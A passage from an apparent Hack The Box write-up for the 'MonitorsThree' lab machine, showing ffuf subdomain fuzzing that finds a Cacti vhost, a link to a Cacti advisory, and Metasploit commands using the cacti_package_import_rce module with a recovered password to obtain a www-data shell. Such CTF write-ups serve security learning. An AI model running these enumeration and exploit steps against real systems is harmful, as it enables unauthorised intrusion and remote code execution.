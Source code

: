 ```bash
─➤  ffuf -u http://monitorsthree.htb/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.monitorsthree.htb'  -fw 3598 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 3598
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 279ms]
:: Progress: [4989/4989] :: Job [1/1] :: 213 req/sec :: Duration: [0:00:23] :: Errors: 0 ::

```



## Web Attack (SQLi)

Upon googling the Cacti version that the server is using, I found this:\
[https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv)\
\


### Metasploit module -> www-data shell

```bash
use multi/http/cacti_package_import_rce
set RHOSTS cacti.monitorsthree.htb
set LHOST tun0
set password greencacti2001

run
#shell
```
